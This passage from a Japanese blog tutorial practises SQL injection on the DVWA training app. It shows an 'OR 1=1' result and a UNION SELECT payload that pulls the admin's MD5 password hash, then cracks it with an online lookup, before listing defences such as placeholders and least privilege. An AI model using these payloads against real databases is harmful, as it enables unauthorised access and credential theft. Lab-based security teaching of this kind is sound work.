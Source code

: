 `OR 1=1`なので、usersテーブルの情報が全件取得されてしまいadminユーザの情報も出てきてしまっています。

![スクリーンショット 2025-05-11 18.50.18.png](https://qiita-image-store.s3.ap-northeast-1.amazonaws.com/0/2620245/2ff7879b-1d91-4984-aa34-dc783b20703b.png)

---

#### 攻撃パターン3️⃣ - 特定ユーザ（admin）の情報を狙う

```
' union select user, password from users where user = 'admin' #
```

と入力するとadminユーザのパスワードハッシュが得られます。
```
MariaDB [dvwa]> SELECT first_name, last_name FROM users WHERE user_id = '' union select user, password from users where user = 'admin';
+------------+----------------------------------+
| first_name | last_name                        |
+------------+----------------------------------+
| admin      | 5f4dcc3b5aa765d61d8327deb882cf99 |
+------------+----------------------------------+
1 row in set (0.018 sec)
```

![スクリーンショット 2025-05-11 18.54.27.png](https://qiita-image-store.s3.ap-northeast-1.amazonaws.com/0/2620245/1e48cc67-b2a1-4212-a31d-b27b43ab3d29.png)

ここで、パスワードハッシュが得られました。このハッシュはMD5となっており、ハッシュ化する前の平文が脆弱なものだと、逆引きされてしまう可能性が高くなります。
実際に`5f4dcc3b5aa765d61d8327deb882cf99`を以下のようなオンラインの辞書サイトで検索してみると`password`という文字列が得られます。

https://crackstation.net/

<font color="red">**これで、adminユーザを奪取することができてしまいました。**</font>

## 基本的な対策について

SQLインジェクションの対策としては、主に以下のようなものがあります。

| 対策 | 詳細 |
|------|------|
| プレースホルダを使用 | SQL文とデータを分離することで、ユーザ入力がSQLの構文として解釈されることを防ぐ |
| エスケープ処理 | ユーザが入力した特殊文字（例: `'`, `"`, `;`）を無害化することで、SQL構文と誤解されないようにする。 |
| DB権限を最小限に | アプリが使うDBユーザには必要最小限の権限（SELECT, INSERTなど）だけを付与。<br>誤ってDROP TABLEなどされないように制限。 |
| フレームワークやライブラリのアップデート | 古いバージョンには既知の脆弱性が残っている可能性がある。<br>常にアップデートしておくことで安全性を保つ。 |


## まとめ

今回は、DVWAを使用してSQLインジェクションを実践してみました。このように対策がされていないと簡単にadminユーザを取られてしまうことが分かりました。
本記事をきっかけに、攻撃者の視点を体験することで守りを強くするというセキュリティの基本姿勢を実感いただければ幸いです。
DVWAでは、SQLインジェクションの他にも様々な脆弱性を体験できるので、他の検証記事も記載予定です！
